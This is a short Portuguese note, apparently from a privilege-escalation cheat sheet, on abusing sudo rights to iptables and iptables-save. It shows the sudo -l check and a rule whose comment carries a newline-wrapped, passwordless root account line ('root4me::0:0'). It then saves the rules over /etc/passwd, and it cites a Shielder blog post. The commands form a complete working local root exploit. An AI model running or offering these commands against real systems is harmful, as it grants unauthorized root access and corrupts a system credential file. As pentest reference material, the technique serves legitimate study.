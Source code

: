 Se pudermos executar os binários `iptables` e `iptables-save` com `sudo` podemos criar uma regra com um comentário malicioso e salva-lo no `/etc/passwd`.

```sh
$ sudo -l
user ALL=(ALL) NOPASSWD: /usr/bin/iptables
user ALL=(ALL) NOPASSWD: /usr/bin/iptables-save
```

Aqui criamos a regra maliciosa
```sh
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nroot4me::0:0:root:/root:/bin/bash\n'
```

Aqui salvamos ela no arquivo `/etc/passwd`, faça o backup antes.
```sh
sudo iptables-save -f /etc/passwd
```

***
#### Referência
https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/